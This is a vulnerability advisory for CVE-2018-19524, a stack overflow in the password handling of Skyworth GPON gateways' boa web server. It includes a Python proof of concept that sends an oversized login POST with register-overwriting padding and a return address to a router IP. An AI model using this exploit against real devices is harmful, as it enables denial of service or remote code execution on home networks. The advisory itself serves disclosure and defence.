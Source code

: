 ========================================================
Unauthenticated  Stack Overflow in Multiple Gpon Devices
========================================================

. contents:: Table Of Content

Overview
========

Title:- StackOverflow in Multiple Skyworth GPON HomeGateways and Optical Network terminals. 
CVE-ID :- CVE-2018-19524
Author: Kaustubh G. Padwad
Vendor: Shenzhen Skyworth Digital Technology Company Ltd.(http://www.skyworthdigital.com/products)
Products:
	 1.DT741 Converged Intelligent Terminal (G/EPON+IPTV)
	2.DT741 Converged Intelligent Terminal (G/EPON+IPTV)
	3.DT721-cb GPON uplink home gateway (GPON+2FE+1POTS)
	4.DT721-cb GPON Uplink Home Gateway (GPON+2FE+1POTS)
	5.DT741-cb GPON uplink home gateway (GPON+4FE+1POTS+WIFI+USB)
	6.DT741-cb GPON Uplink Home Gateway (GPON+4FE+1POTS+WIFI+USB)
	7.DT741-cbGPON uplink home gateway DT741-cb


Tested Version: : Multiple versions
Severity: High--Critical

Advisory ID
============
KSA-Dev-001

About the Product:
==================

* The (products from above list)  is a high performance GPON access gateway that complies with ITU-G.984 and CTC standards.
* Configure a GPON optical interface, two FEs, one POTS
* Provide Ethernet, VOIP and other interfaces to meet the access requirements of different devices.
* It can provide high-performance broadband access services for home users, individual users, and SOHO small businesses.
* Supports the standard TR069 protocol,which can be flexibly customized according to the carrier network and is compatible with mainstream OLT,software switching and service management platforms

Description: 
============
An issue was discovered on Shenzhen Skyworth
DT741 Converged Intelligent Terminal (G/EPON+IPTV) SDOTBGN1,DT721-cb SDOTBGN1,and DT741-cb SDOTBGN1 devices.
A long password to the Web_passwd function allows remote attackers to cause a denial of service (segmentation fault) or
achieve unauthenticated remote code execution because of control of registers
S0 through S4 and T4 through T7.


Additional Information
========================
The value of password under Web_passwd function is not getting sanitized,so passing too much junk data to the password parameter triggers to the SIGSEGV segmentation fault in device, post research it
was possible to control the registers from S0-S4 and T4-T7.A Successful exploitation could leads to unauthenticated remote code execution on device.


[Affected Component]
web_passwd function inside the boa web server implementation.

------------------------------------------
[Attack Type]
Remote
------------------------------------------
[Impact Code execution]
true
------------------------------------------
[Impact Denial of Service]
true

------------------------------------------
[Attack Vectors]
Remote code execution by running the poc.py against the target ip address.

[Vulnerability Type]
====================
Buffer Overflow,Exec

How to Reproduce: (POC):
========================

One can use below exploit

import socket
import struct

buf = "POST /cgi-bin/index2.asp  HTTP/1.1\r\nHOST: 192.168.1.1\r\nUser-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\nReferer: http://192.168.1.2/cgi-bin/index2.asp\r\nCookie: LoginTimes=0\r\nConnection: Close\r\nUpgrade-Insecure-Requests: 1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 1714\r\n\n"
buf+="Username=Bufferoverflow"
buf+="&Logoff=0" 
buf+="&LoginTimes=1"
buf+="&LoginTimes_Zero=0"
buf+="&value_one=1"
buf+="&Password1=xss"
buf+="&Password2=xss"
buf+="&logintype=usr"
buf+="&Password="
buf+="A"*999 #Padding till T4
buf+="T4T4" #T4 Address 0x2BB30D5C kill address based on libc
buf+="T7T7" #T7 sleep address based on libc
buf+="B"*9 #Padding till T6
buf+= "T6T6" #T7 Address Sleep Address Based on libc negetive
buf+="K"*8 #Padding between T6to s0
buf+="S0S0" #S0 Address sleep address boa possitive
buf+="S1S1" #S1 Address Sleep Address Boa negetive
buf+="S2S2" #S2 Address Normal Sleep Adress
buf+="S3S3" #S3Address System Address
buf+="\xA0\x0E\xA2\x18" #return Address
buf+="K"*600


print buf
print "[+] sending buffer size", len(buf)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.1", 80))
s.send(buf)

Mitigation
==========

No Official mitigation recived from vendor.

[Vendor of Product]
Shenzhen Skyworth Digital Technology Company Ltd.(http://www.skyworthdigital.com/products)

Disclosure: 
===========
01-Nov-2018 Discoverd the vulnerability
03-Nov-2018 Reported to vendor (No Response)
13-Nov-2018 follow-up-01 (No reposonse.)
24-Nov-2018 Requested for CVE/Cve's.
26-Nov-2018 CVE-Assign by Mitre

credits:
========
* Kaustubh Padwad
* Information Security Researcher
* kingkaustubh@me.com
* https://s3curityb3ast.github.io/
* https://twitter.com/s3curityb3ast
* http://breakthesec.com
* https://www.linkedin.com/in/kaustubhpadwad
